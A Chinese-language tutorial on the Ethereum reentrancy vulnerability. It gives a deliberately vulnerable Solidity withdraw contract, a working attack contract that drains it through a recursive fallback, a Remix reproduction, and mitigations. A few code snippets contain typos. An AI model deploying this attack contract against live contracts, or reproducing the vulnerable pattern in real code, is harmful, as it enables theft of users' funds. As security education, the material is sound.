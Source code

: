 # 重入攻击分析
---

                                                                                                    author：甘赞栩
## 漏洞概述
在以太坊中，智能合约能够调用其他外部合约的代码，由于智能合约可以调用外部合约或者发送以太币，这些操作需要合约提交外部的调用，所以这些合约外部的调用就可以被攻击者利用造成攻击劫持，使得被攻击合约在任意位置重新执行(回调)，绕过原代码中的限制条件，从而发生重入攻击。重入攻击本质上与编程里的递归调用类似，所以当合约将以太币发送到未知地址时就可能会发生。
* **发生条件**
    1. 调用了外部的合约且该合约是不安全的
    2. 外部合约的函数调用早于状态变量的修改

接下来给大家展示的是一个最简单的提款函数：
```
function withdraw(){
  require(msg.sender,call.value(balances[msg.sender])());
  balances[msg.sender]=0;
}
```
这种函数大多存在于钱包、去中心化交易所中，目的是为了让用户提款，将合约中的代币转换成通用的以太币。<br/>

## 漏洞分析
    在进入分析之前，先介绍几个基础知识
* 以太坊常用的转账的方法
    1. transfer()：只会发送 2300 gas 进行调用，当发送失败时会通过 throw 来进行回滚操作，从而防止了重入攻击。
    2. send()：只会发送 2300 gas 进行调用，当发送失败时会返回布尔值 false，从而防止了重入攻击。
    3. gas().call.vale()()：在调用时会发送所有的 gas，当发送失败时会返回布尔值 false，不能有效的防止重入攻击。
* fallback函数
    回退函数 (fallback function)：回退函数是每个合约中有且仅有一个没有名字的函数，并且该函数无参数，无返回值，如下所示：
    ```
    function() public payable{
        ...
    }
    ```
    回退函数在以下几种情况中被执行：
    1. 调用合约时没有匹配到任何一个函数
    2. 没有传数据
    3. 智能合约收到以太币（为了接受以太币，fallback 函数必被标记为 payable）

* 漏洞
    通过我们对fallback函数的了解。
    如果我们构造一个 fallback 函数，函数里面也调用对方的 withdraw 函数的话，那将会产生一个循环调用转账功能，存在漏洞的合约会不断向攻击者合约转账，终止循环结束（以太坊 gas 有上限）
    ![攻击原理](images/Reenter1.png)
    我们先来看一段比较典型的有重入漏洞的合约：
    ```
    pragma solidity ^0.4.19;

    contract Reentrance{
        address _owner;
        mapping (address => uint256) balances;

        function Reentrance(){
            _owner = msg.sender;
        }

        function withdraw(uint256 amount) public payable{
            require(balances[msg.sender] >= amount);
            require(this.balance >= amount);
            // 发送以太
            msg.sender.call.value(amount)();
            // 状态变量修改
            balances[msg.sender] -= amount;
        }

        function deposit() public payable{
            balances[msg.sender] += msg.value;
        }

        function balanceOf(address adre)constant returns(uint256){
            return balances[adre];
        }

        function wallet() constant returns(uint256 result){
            return this.balance;
        }


    }
    ```
    我们来看这个合约的 withdraw 函数，这个函数中的转账操作有一个外部调用（msg.sender.call.value(amount)()），所以我们就可以认为这个合约是可能有重入漏洞的，但是具体能否产生危害还需要更深入的分析：
    * 攻击者思路：
        >1. 所有的外部调用都是不安全的且合约在接收以太的时候会触发 fallback 函数执行相应的逻辑，这是一种隐藏的外部调用，这种隐藏的外部调用是否会造成危害呢？
        >2. 我们可以看到在 withdraw 函数中是先执行外部调用进行转账后才修改用户余额状态变量的，那我们可不可以在转账外部调用的时候构造一个恶意的逻辑合约在合约执行 balance[msg.sender] -= amount 之前一直循环调用 withdraw 函数一直提币从而将合约账户清空呢？
    * 攻击合约：
    ```
    pragma solidity ^0.4.19;
    import"./Reentrance.sol";

    contract ReentranceAttack{
        Reentrance re;
        function ReentranceAttack(address _target) public payable{
            re = Reentrance(_target);
        }

        function wallet()view returns(uint256){
            return this.balance;
        }

        function deposit()public payable {
            re.deposit.value(msg.value)();
        }

        function attack(){
            re.withdraw(1);
        }
        function () public payable {
            if (address(re).balance >= 1 ether){
                re.withdraw(1);
            }
        }

    }
    ```
    * 攻击原理：
        由于受害者合约withdraw函数使用call函数转账，会附加"所有可用gas"，并触发msg.sender的fallback函数。fallback 函数再次调用withdraw函数套利，由于withdraw函数最后一步才减去msg.sender对应的余额并记录导致递归调用withdraw函数require判断都能通过。直到合约中没有可用余额为止。
        类似于对攻击者fallback函数的递归调用
## 漏洞复现
首先用账户(`0x5B38Da6a701c568545dCfcB03FcB875f56beddC4`)模拟受害者，点击depoly开始部署。
![](images/Reenter2.png)
然后将Value改为5，单位改为ether。点击deposit方法
![](images/Reenter3.png)
查看当前账户余额为5ether，存款成功
![](images/Reenter4.png)
创建一个新账户（`0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2`）来模拟攻击者，在Deploy处填写漏洞合约地址，部署攻击合约。
![](images/Reenter5.png)
部署成功后，先查看攻击合约的wallet为0
![](images/Reenter6.png)
攻击者先存款 1 ether 到漏洞合约中，这里设置 VALUE 为 1 ether，之后点击攻击合约的 deposit 进行存款。
![](images/Reenter7.png)
再次调用漏洞合约的wallet方法，却发现有了6 ether
![](images/Reenter8.png)
攻击者 (`0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2`) 调用攻击合约的 attack 函数模拟攻击，之后调用被攻击合约的 wallet 函数去查看合约的余额，发现已经归零，此时回到攻击合约查看余额，发现被攻击合约中的 6 ether 已经全部提款到了攻击者合约中，这就造成了重入攻击。
![](images/Reenter9.png)

## 漏洞防范
* **加入防重入锁**
    下面是一个防重入锁的例子：
    ```
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.3;

    contract ReEntrancyGuard {
        bool internal locked;

        modifier noReentrant() {
            require(!locked, "No re-entrancy");
            locked = true;
            _; 
        locked = false; 
    }
    }
    ```

* **写代码时需要遵循先判断，后写入变量在进行外部调用的编码规范（Checks-Effects-Interactions）**

* **使用send() 和 transfer() 转币，只会传递2300Gas供调用，防止重入攻击。**